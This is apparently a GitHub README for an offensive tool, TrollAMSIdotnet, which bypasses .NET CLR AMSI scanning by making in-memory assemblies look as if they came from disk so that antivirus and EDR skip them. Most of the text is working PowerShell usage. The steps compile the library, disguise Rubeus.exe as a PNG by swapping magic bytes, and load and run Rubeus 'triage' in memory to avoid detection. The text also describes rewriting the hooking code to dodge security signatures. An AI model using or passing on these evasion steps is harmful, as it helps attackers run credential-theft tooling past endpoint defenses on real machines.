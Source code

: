 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to instructions below) 

## Why is this technique so powerful? (i.e works on many powerful AV/EDR)
Because even if you bypass amsi, when you do any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 

![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)
## Usage Trollamsidotnet.cs
```
#First download TrollAmsiDOTNET.cs and dog.png (taken from flangvik/SharpCollection nightly build, you can sha1 the bytes before loading to check)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```
## Usage Trollamsidotnet2.cs
```
#This is a more generic library for Trollamsidotnet that works spoofs any files/path (not just assemblies) 
#Any attempt to read from <path> will now read the $filebytes, so LoadFrom(<path>) works as well
#<path\file> can already exist or not, but you must be able to write to that path, so desktop is good to start with

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET2.dll /target:library TrollAmsiDOTNET2.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
$path = "c:\users\admin\desktop\blah.txt"
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET2.dll")) > $null
[TrollAmsiDOTNET2]::SpoofFileOnDisk($path, $fileBytes)

#Do **standard** loading of assembly with LoadFrom and invoke entrypoint
$entryPoint = ([System.Reflection.Assembly]::LoadFrom($path)).EntryPoint
[string[]]$myargs = "triage"
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```

## Disclaimer
Should only be used for educational purposes!
